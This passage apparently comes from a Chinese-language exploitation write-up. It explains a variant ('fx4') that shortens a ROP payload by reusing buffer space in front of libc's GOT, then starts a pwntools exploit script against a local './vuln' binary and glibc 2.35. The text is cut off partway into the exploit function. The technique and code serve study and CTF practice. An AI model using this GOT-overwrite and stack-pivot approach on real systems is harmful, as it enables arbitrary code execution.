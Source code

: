 



![](image-20231207161848218.png)



这样利用需要发送0x70 bytes的payload，有没有什么方法再缩短一下？请看下文。



### 0x05. fx4



注意到fx3中GOT表前面有0x28 bytes的buffer没有利用起来，其实稍微构造一下也是能用来缩短payload的。

我们的rop chain其实只有0x20字节，塞进去还有8字节空余，放一个`pop rxx; ret`就能刚好跳过sink点，在sink点后再放第二个栈迁移gadget即可。



- 完整代码：

```python
#!/usr/bin/env python3
# coding=utf8

import inspect

from pwn import *

context.log_level = 'debug'

local = 1

cn = process('./vuln')
libc = ELF("./libc-2.35.so")

def tobytes(x): return x.encode('latin1') if isinstance(x, str) else x
def sd(x): return cn.send(tobytes(x))
def sl(x): return cn.sendline(tobytes(x))
def sa(a, b): return cn.sendafter(tobytes(a), tobytes(b))
def sla(a, b): return cn.sendlineafter(tobytes(a), tobytes(b))
def rv(x=0x1000): return cn.recv(x)
def rl(): return cn.recvline()
def ru(x): return cn.recvuntil(tobytes(x))
def raddr(): return u64(cn.recvuntil(b'\n')[:-1].ljust(8, b'\x00'))
def raddrn(x): return u64(rv(x).ljust(8, b'\x00'))
def interact(): return cn.interactive()
def ss(s): return success(s)


def logsym(val):
    for line in inspect.getframeinfo(inspect.currentframe().f_back)[3]:
        m = re.search(r'\blogsym\s*\(\s*([A-Za-z_][A-Za-z0-9_]*)\s*\)', line)
    if m:
        varname = m.group(1)
        ss(f"{varname} => {hex(val)}")
    else:
        ss(hex(val))


############################################

context.arch = 'amd64'


def fx4(libc: ELF, slot, rop_chain):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
```